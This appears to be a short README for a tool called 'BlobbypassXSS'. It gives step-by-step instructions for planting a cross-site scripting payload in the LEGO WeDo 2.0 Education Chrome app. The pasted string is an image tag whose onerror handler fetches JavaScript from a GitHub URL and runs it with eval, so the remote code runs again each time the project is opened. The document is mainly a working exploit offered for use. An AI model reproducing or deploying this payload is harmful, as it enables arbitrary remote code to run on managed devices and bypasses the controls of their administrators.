 # VERCEL
Setup:
First, install WeDo 2.0 LEGO® Education from the Chrome Webstore.
Wait until it loads, then turn off your WiFi.
Once you are in the project, click on the pencil in the top bar.
Then, click the green document button.
In the textbox, paste the following string:
<img src=# onerror='fetch("https://raw.githubusercontent.com/Blobby-Boi/BlobbypassXSS/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
Close LEGO WeDo 2.0 and re-enable your WiFi.
How to use (after Setup):
Open LEGO WeDo 2.0 (with WiFi turned on).
Click the project you made when you were setting this up.
Press the pencil in the top bar.
Done!
